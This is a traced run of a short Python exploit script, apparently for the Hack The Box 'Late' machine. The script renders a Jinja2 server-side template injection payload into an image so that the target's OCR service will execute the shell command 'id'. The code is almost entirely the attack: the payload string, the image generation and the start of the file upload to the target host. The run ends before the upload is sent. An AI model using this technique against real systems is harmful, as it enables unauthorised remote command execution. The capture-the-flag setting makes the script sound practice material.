
#> input picture img/arch1.jpg, 1000 x 562 px, shrunk from 2920 x 1642 before the run
$ python solevHTB.py
#> lines starting #> are read from the running program, lines starting #| are printed output that depends on the picture
# In[1]:
import re
import requests
import io
from PIL import Image
from PIL import ImageFont
from PIL import ImageDraw
import os

url = "http://images.late.htb"

# generate img
img = Image.open("img/arch1.jpg")
#> img is the input picture: PIL image 1000x562 RGB; min 0, max 255, mean 253.6
draw = ImageDraw.Draw(img)
font = ImageFont.truetype("font/consolaz.ttf", 30)
draw.text((10, 250),""" {{ config.__class__.__init__.__globals__['os'].popen(' id ').read()}}""",(1,1,1),font=font)

img.save('img/bb2-out.jpg')

#> saved as bb2-out.jpg: PIL image 1000x562 RGB; min 0, max 255, mean 251.1
# img.show()

# send img
image = open('img/bb2-out.jpg','rb').read()
filename = "Arch.png"
files ={"file":(filename,image)}

#> (the run stopped early here; a loop or call above may not have finished)
